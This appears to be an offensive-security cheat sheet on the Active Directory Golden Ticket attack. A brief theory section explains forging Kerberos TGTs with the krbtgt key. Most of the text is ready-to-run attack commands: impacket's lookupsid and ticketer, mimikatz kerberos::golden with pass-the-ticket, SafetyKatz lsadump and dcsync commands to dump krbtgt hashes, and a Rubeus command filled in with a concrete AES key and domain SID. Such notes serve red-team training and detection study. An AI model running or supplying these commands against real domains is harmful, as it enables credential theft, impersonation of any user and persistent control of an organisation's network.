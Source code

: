 # Golden Ticket

**Theory**
The long-term key of the krbtgt account can be used to forge a special TGT (Ticket Granting Ticket) that can later be used with Pass-the-ticket to access any resource within the AD domain. 

The krbtgt's key is used to encrypt the PAC. In a Golden Ticket scenario, an attacker that has knowledge of the krbtgt long-term key, will usually forge a PAC indicating that the user belongs to privileged groups. This PAC will be embedded in a forged TGT. The TGT will be used to request Service Tickets than will then feature the PAC presented in the TGT, hence granting lots of access to the attacker.

A golden ticket is signed and encrypted by the hash of krbtgt account 
which makes it a valid TGT ticket.

The krbtgt user hash could be used to impersonate any user with any 
privileges from even a non-domain machine.


**Unix**

```
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser"
```


**Windows**
```
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

````
# Get krbtgt hash
C:\AD\Tools\SafetyKatz.exe '"lsadump::lsa /patch"'

# DCSync feature for getting AES keys for krbtgt account. DA privileges (or a user that has replication rights on the domain object)
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"

# Use Rubeus to forge a Golden ticket with attributes similar to a normal TGT
C:\AD\Tools\Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 
/sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```